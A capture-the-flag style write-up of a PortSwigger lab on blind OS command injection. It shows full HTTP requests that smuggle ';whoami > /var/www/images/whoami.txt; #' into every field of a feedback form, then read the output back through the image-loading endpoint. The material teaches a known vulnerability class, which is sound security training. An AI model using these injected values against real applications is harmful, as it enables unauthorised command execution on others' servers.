 # [Lab 3: Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

---

## Description

This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

`/var/www/images/`

The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the `whoami` command and retrieve the output.

---

## Solution

Navigate to the feedback function at `/feedback`. It contains a form with four inputs: `name`, `email`, `subject`, and `message`.

![](images/Pasted%20image%2020210819183324.png)

It is unknown which of, or in what order, these arguments are passed to the shell command. Thus, inject into all four and terminate them with a comment indicator (`#`). This way, which ever argument is first will comment out all the rest.

The objective of the challenge is to execute the `whoami` command. Since the output of the command isn't in the HTTP response, redirect the output to `/var/www/images/whoami.txt`.

```http
POST /feedback/submit HTTP/1.1
Host: ac5c1ff31ec290d680c37fc9006200f0.web-security-academy.net
Cookie: session=A7qFNhDNbj6Ook4fOAC1cNg5Ctfltqtd
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
Origin: https://ac5c1ff31ec290d680c37fc9006200f0.web-security-academy.net
Dnt: 1
Referer: https://ac5c1ff31ec290d680c37fc9006200f0.web-security-academy.net/feedback
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=wnAcZp4tDvrgSYNqcJsurav2gF3XTHRj&name=;whoami+>+/var/www/images/whoami.txt;+#&email=;whoami+>+/var/www/images/whoami.txt;+#&subject=;whoami+>+/var/www/images/whoami.txt;+#&message=;whoami+>+/var/www/images/whoami.txt;+#
```

Attempt to navigate to the photo. Notice that the photos of the products on the homepage are rendered as `img` tags whose `src` attributes are set to `/images?filename=$FILENAME`. By navigating to `/images?filename=whoami.txt`, it is possible to read the output of the command.

```http
GET /image?filename=whoami.txt HTTP/1.1
Host: ac5c1ff31ec290d680c37fc9006200f0.web-security-academy.net
Cookie: session=A7qFNhDNbj6Ook4fOAC1cNg5Ctfltqtd
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Cache-Control: max-age=0
Te: trailers
Connection: close
```

```txt
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 12

peter-jesSSz
```

The current user is `peter-jesSSz`.
